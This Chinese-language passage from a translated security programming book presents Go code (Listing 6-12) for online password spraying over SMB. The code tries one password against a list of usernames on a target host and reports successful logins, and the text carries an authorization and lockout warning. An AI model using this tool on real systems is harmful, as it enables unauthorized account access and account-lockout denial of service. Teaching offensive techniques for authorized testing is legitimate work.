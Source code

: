 一旦包安装完成，我们就可以开始编写代码了。你将编写的代码（见列表 6-12）接受一个包含换行分隔的用户名的文件、一个密码、一个域和目标主机信息作为命令行参数。为了避免将帐户锁定出某些域，你会尝试在一系列用户上使用一个密码，而不是在一个或多个用户上尝试一系列密码。

**警告**

*在线密码猜测可能会导致帐户被锁定，从而有效地形成拒绝服务攻击。测试代码时要小心，只对有授权测试的系统进行此操作。*

```
func main() {
    if len(os.Args) != 5 {
        log.Fatalln("Usage: main </user/file> <password> <domain>
        <target_host>")
    }

    buf, err := ioutil.ReadFile(os.Args[1])
    if err != nil {
        log.Fatalln(err)
    }
    options := smb.Options❶{
        Password: os.Args[2],
        Domain:   os.Args[3],
        Host:     os.Args[4],
        Port:     445,
    }

    users := bytes.Split(buf, []byte{'\n'})
    for _, user := range users❷ {
     ❸ options.User = string(user)
        session, err := smb.NewSession(options, false)❹
        if err != nil {
            fmt.Printf("[-] Login failed: %s\\%s [%s]\n",
                options.Domain,
                options.User,
                options.Password)
            continue
        }
 defer session.Close()
        if session.IsAuthenticated❺ {
            fmt.Printf("[+] Success     : %s\\%s [%s]\n",
                options.Domain,
                options.User,
                options.Password)
        }
    }
}
```

*列表 6-12: 利用 SMB 包进行在线密码猜测 (*[/ch-6/password-guessing/main.go](https://github.com/blackhat-go/bhg/blob/master/ch-6/password-guessing/main.go)*)*

SMB 包通过会话进行操作。要建立会话，首先初始化一个 `smb.Options` 实例，它将包含所有会话选项，包括目标主机、用户、密码、端口和域 ❶。接下来，遍历每个目标用户 ❷，适当地设置 `options.User` 值 ❸，然后调用 `smb.NewSession()` ❹。此函数在后台为你处理大量工作：它协商 SMB 方言和认证机制，然后对远程目标进行认证。如果认证失败，函数将返回错误，并根据结果填充 `session` 结构中的布尔值 `IsAuthenticated` 字段。接下来，它将检查该值，以查看认证是否成功，如果成功，则显示成功消息 ❺。

